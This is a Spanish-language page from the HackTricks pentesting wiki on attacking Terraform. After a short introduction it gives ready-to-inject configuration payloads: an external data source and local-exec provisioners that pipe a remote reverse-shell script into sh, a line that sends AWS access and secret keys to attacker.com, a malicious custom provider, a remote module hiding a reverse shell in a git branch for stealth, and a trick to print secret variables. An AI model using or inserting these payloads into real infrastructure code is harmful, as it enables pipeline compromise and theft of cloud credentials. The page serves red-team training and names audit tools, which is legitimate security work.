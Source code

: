 # Seguridad en Terraform

<details>

<summary><strong>Aprende hacking en AWS de cero a héroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si quieres ver a tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF**, consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Consigue el [**merchandising oficial de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de GitHub de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Información Básica

HashiCorp Terraform es una **herramienta de infraestructura como código** que te permite definir tanto **recursos en la nube como en local** en archivos de configuración legibles por humanos que puedes versionar, reutilizar y compartir. Luego puedes usar un flujo de trabajo consistente para aprovisionar y gestionar toda tu infraestructura a lo largo de su ciclo de vida. Terraform puede gestionar componentes de bajo nivel como recursos de cómputo, almacenamiento y red, así como componentes de alto nivel como entradas de DNS y características de SaaS.

### ¿Cómo funciona Terraform?

Terraform crea y gestiona recursos en plataformas en la nube y otros servicios a través de sus interfaces de programación de aplicaciones (APIs). Los proveedores permiten que Terraform trabaje con prácticamente cualquier plataforma o servicio con una API accesible.

![](<../../.gitbook/assets/image (33).png>)

HashiCorp y la comunidad de Terraform ya han escrito **más de 1700 proveedores** para gestionar miles de diferentes tipos de recursos y servicios, y este número sigue creciendo. Puedes encontrar todos los proveedores públicamente disponibles en el [Registro de Terraform](https://registry.terraform.io/), incluyendo Amazon Web Services (AWS), Azure, Google Cloud Platform (GCP), Kubernetes, Helm, GitHub, Splunk, DataDog y muchos más.

El flujo de trabajo central de Terraform consta de tres etapas:

* **Escribir:** Definir recursos, que pueden estar en múltiples proveedores de nube y servicios. Por ejemplo, podrías crear una configuración para desplegar una aplicación en máquinas virtuales en una red Virtual Private Cloud (VPC) con grupos de seguridad y un balanceador de carga.
* **Planificar:** Terraform crea un plan de ejecución describiendo la infraestructura que creará, actualizará o destruirá basado en la infraestructura existente y tu configuración.
* **Aplicar:** Con aprobación, Terraform realiza las operaciones propuestas en el orden correcto, respetando cualquier dependencia de recursos. Por ejemplo, si actualizas las propiedades de una VPC y cambias el número de máquinas virtuales en esa VPC, Terraform recreará la VPC antes de escalar las máquinas virtuales.

![](<../../.gitbook/assets/image (81).png>)

### Terraform Enterprise

Terraform Enterprise te permite **ejecutar comandos** como `terraform plan` o `terraform apply` de forma remota en una **versión autoalojada de Terraform Cloud**. Por lo tanto, si encuentras la **clave API** para acceder a ese servidor de Terraform, puedes **comprometerlo**.\
Para más información, consulta:

{% content-ref url="terraform-enterprise-security.md" %}
[terraform-enterprise-security.md](terraform-enterprise-security.md)
{% endcontent-ref %}

## Laboratorio de Terraform

Solo instala terraform en tu computadora.

Aquí tienes una [guía](https://learn.hashicorp.com/tutorials/terraform/install-cli) y aquí la [mejor manera de descargar terraform](https://www.terraform.io/downloads).

## RCE en Terraform

Terraform **no tiene una plataforma que exponga una página web o un servicio de red** que podamos enumerar, por lo tanto, la única forma de comprometer terraform es **poder añadir/modificar archivos de configuración de terraform**.

Sin embargo, terraform es un componente **muy sensible** de comprometer porque tendrá **acceso privilegiado** a diferentes ubicaciones para poder funcionar correctamente.

La principal manera para que un atacante pueda comprometer el sistema donde se ejecuta terraform es **comprometer el repositorio que almacena las configuraciones de terraform**, porque en algún momento van a ser **interpretadas**.

De hecho, hay soluciones que **ejecutan terraform plan/apply automáticamente después de que se crea un PR**, como **Atlantis**:

{% content-ref url="../atlantis-security.md" %}
[atlantis-security.md](../atlantis-security.md)
{% endcontent-ref %}

Si puedes comprometer un archivo de terraform, hay diferentes maneras en las que puedes realizar RCE cuando alguien ejecuta `terraform plan` o `terraform apply`.

### Terraform plan

Terraform plan es el **comando más utilizado** en terraform y los desarrolladores/soluciones que usan terraform lo llaman todo el tiempo, por lo que la **manera más fácil de obtener RCE** es asegurarte de envenenar un archivo de configuración de terraform que ejecutará comandos arbitrarios en un `terraform plan`.

#### Usando un proveedor externo

Terraform ofrece el [`external` provider](https://registry.terraform.io/providers/hashicorp/external/latest/docs) que proporciona una forma de interfaz entre Terraform y programas externos. Puedes usar el origen de datos `external` para ejecutar código arbitrario durante un `plan`.

Inyectar en un archivo de configuración de terraform algo como lo siguiente ejecutará un rev shell al ejecutar `terraform plan`:
```javascript
data "external" "example" {
program = ["sh", "-c", "curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh"]
}
```
#### Uso de un proveedor personalizado

Cualquiera puede escribir un [proveedor personalizado](https://learn.hashicorp.com/tutorials/terraform/provider-setup) y publicarlo en el [Registro de Terraform](https://registry.terraform.io/). También podrías intentar obtener un proveedor personalizado de un registro privado.

Así es:

* escribe un proveedor personalizado que ejecute algún código malicioso (como exfiltrar credenciales o datos de clientes)
* publícalo en el Registro de Terraform
* añade el proveedor al código de Terraform en una rama de características
* abre un PR para la rama de características
```javascript
terraform {
required_providers {
evil = {
source  = "evil/evil"
version = "1.0"
}
}
}

provider "evil" {}
```
Dado que el proveedor se incorporará durante el `init` y ejecutará algo de código durante el `plan`, tienes ejecución de código arbitrario.

Puedes encontrar un ejemplo en [https://github.com/rung/terraform-provider-cmdexec](https://github.com/rung/terraform-provider-cmdexec)

#### Usando una referencia externa

Ambas opciones mencionadas son útiles pero no muy sigilosas (la segunda es más sigilosa pero más compleja que la primera). Puedes realizar este ataque de una manera **aún más sigilosa**, siguiendo estas sugerencias:

* En lugar de agregar el rev shell directamente en el archivo de terraform, puedes **cargar un recurso externo** que contenga el rev shell:
```javascript
module "not_rev_shell" {
source = "git@github.com:carlospolop/terraform_external_module_rev_shell//modules"
}
```
Puede encontrar el código de rev shell en [https://github.com/carlospolop/terraform_external_module_rev_shell/tree/main/modules](https://github.com/carlospolop/terraform_external_module_rev_shell/tree/main/modules)

* En el recurso externo, utilice la característica **ref** para ocultar el **código de terraform rev shell en una rama** dentro del repositorio, algo así como: `git@github.com:carlospolop/terraform_external_module_rev_shell//modules?ref=b401d2b`

### Terraform Apply

Terraform apply se ejecutará para aplicar todos los cambios, también puede abusar de él para obtener RCE inyectando **un archivo Terraform malicioso con** [**local-exec**](https://www.terraform.io/docs/provisioners/local-exec.html)**.**\
Solo necesita asegurarse de que algún payload como los siguientes termine en el archivo `main.tf`:
```json
// Payload 1 to just steal a secret
resource "null_resource" "secret_stealer" {
provisioner "local-exec" {
command = "curl https://attacker.com?access_key=$AWS_ACCESS_KEY&secret=$AWS_SECRET_KEY"
}
}

// Payload 2 to get a rev shell
resource "null_resource" "rev_shell" {
provisioner "local-exec" {
command = "sh -c 'curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh'"
}
}
```
Sigue las **sugerencias de la técnica anterior** para realizar este ataque de una manera **más sigilosa utilizando referencias externas**.

## Volcado de Secretos

Puedes obtener **valores secretos utilizados por terraform** ejecutando `terraform apply` añadiendo al archivo de terraform algo como:
```json
output "dotoken" {
value = nonsensitive(var.do_token)
}
```
## Herramientas de Auditoría

* [**tfsec**](https://github.com/aquasecurity/tfsec): tfsec utiliza análisis estático de tu código terraform para detectar posibles malas configuraciones.
* [**terascan**](https://github.com/tenable/terrascan): Terrascan es un analizador de código estático para Infraestructura como Código.

## Referencias

* [Seguridad de Atlantis](../atlantis-security.md)
* [https://alex.kaskaso.li/post/terraform-plan-rce](https://alex.kaskaso.li/post/terraform-plan-rce)

<details>

<summary><strong>Aprende hacking en AWS de cero a héroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si quieres ver a tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF** revisa los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Consigue el [**merchandising oficial de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de github de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
